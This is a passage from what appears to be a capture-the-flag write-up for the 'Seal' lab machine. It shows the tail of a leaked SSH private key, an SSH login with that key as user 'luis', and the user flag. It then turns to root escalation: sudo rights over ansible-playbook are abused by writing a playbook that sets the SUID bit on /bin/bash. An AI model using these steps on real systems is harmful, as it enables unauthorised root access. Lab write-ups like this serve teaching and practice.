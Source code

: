 ```shell
WS/o1mRHOOP90jfpPOby8WZnDuLm4+IBzvcHFQaO7LUG2oPEwTl0ii7SmaXdahdCfQwkN5
NkfLXfUqg41nDOfLyRCqNAXu+pEbp8UIUl2tptCJo/zDzVsI4AAADBAOUwZjaZm6w/EGP6
KX6w28Y/sa/0hPhLJvcuZbOrgMj+8FlSceVznA3gAuClJNNn0jPZ0RMWUB978eu4J3se5O
plVaLGrzT88K0nQbvM3KhcBjsOxCpuwxUlTrJi6+i9WyPENovEWU5c79WJsTKjIpMOmEbM
kCbtTRbHtuKwuSe8OWMTF2+Bmt0nMQc9IRD1II2TxNDLNGVqbq4fhBEW4co1X076CUGDnx
5K5HCjel95b+9H2ZXnW9LeLd8G7oFRUQAAAMEAyHfDZKku36IYmNeDEEcCUrO9Nl0Nle7b
Vd3EJug4Wsl/n1UqCCABQjhWpWA3oniOXwmbAsvFiox5EdBYzr6vsWmeleOQTRuJCbw6lc
YG6tmwVeTbhkycXMbEVeIsG0a42Yj1ywrq5GyXKYaFr3DnDITcqLbdxIIEdH1vrRjYynVM
ueX7aq9pIXhcGT6M9CGUJjyEkvOrx+HRD4TKu0lGcO3LVANGPqSfks4r5Ea4LiZ4Q4YnOJ
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----
```

Copy the key to Kali Linux, give the right permissions to file and login into ‘luis’ user via SSH.

```other
⛩\> chmod 600 id_rsa

⛩\> ssh -i id_rsa luis@seal.htb

luis@seal:~$ id
uid=1000(luis) gid=1000(luis) groups=1000(luis)

luis@seal:~$ cat user.txt
3c626867f125dc8a444498e96ac95f4b
```

We got the access to luis shell and read the user flag.

# Privilege Escalation - Root

```other
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

We have permission to execute a binary with root privileges. Let’s create a custom ‘yml’ file to enable SUID bit on bash binary.

```other
luis@seal:~$ cat test.yml
- hosts: localhost
  tasks:
  - name: change perms
    command: chmod +s /bin/bash
```

Now we need to execute the binary and provide this ‘yml’ file.
